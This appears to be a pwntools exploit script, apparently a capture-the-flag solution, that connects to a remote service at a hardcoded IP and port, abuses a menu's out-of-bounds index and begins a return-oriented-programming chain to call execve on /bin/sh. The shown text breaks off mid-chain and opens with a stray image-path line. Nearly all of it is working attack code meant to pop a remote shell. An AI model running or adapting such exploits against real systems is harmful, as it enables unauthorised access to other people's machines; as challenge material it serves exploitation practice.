 ```python
from pwn import *

filename = './attachment'
context.arch='amd64'
context.log_level = "debug"
context.terminal = ['tmux', 'neww']
local = 0
all_logs = []
# elf = ELF(filename)
# libc = elf.libc

if local:
    sh = process(filename)
else:
    sh = remote('101.200.198.105', 20689)

def debug(params=''):
    for an_log in all_logs:
        success(an_log)
    pid = util.proc.pidof(sh)[0]
    gdb.attach(pid, params)

def leak_info(name, addr):
    output_log = '{} => {}'.format(name, hex(addr))
    all_logs.append(output_log)
    success(output_log)

def weapon(index):
    sh.sendafter('> ', '1')
    time.sleep(1)
    sh.sendafter('To achive your, your DrEaM🥹..!?\n', str(index))
    time.sleep(1)

def bless(count, addr):
    sh.sendafter('> ', '2')
    time.sleep(1)
    sh.sendafter('> ', str(count))
    time.sleep(1)
    sh.sendafter('> ', str(addr))
    time.sleep(1)

def challenge(content1, content2):
    sh.sendafter('> ', '3')
    time.sleep(1)
    sh.send(content1)
    time.sleep(1)
    sh.send(content2)
    time.sleep(1)

ret = 0x04007fe
pop_rdi = 0x4013f4
pop_rsi = 0x4013f6
pop_rdx = 0x4013f8
pop_rsp = 0x4013fa
bin_sh = 0x4019D7
syscall = 0x602058

weapon(-0x2b18)
bless('5', syscall)

payload1 = p64(ret)*0x16
rop_chain = p64(pop_rdi) + p64(bin_sh)
rop_chain += p64(pop_rsi) + p64(0)
```
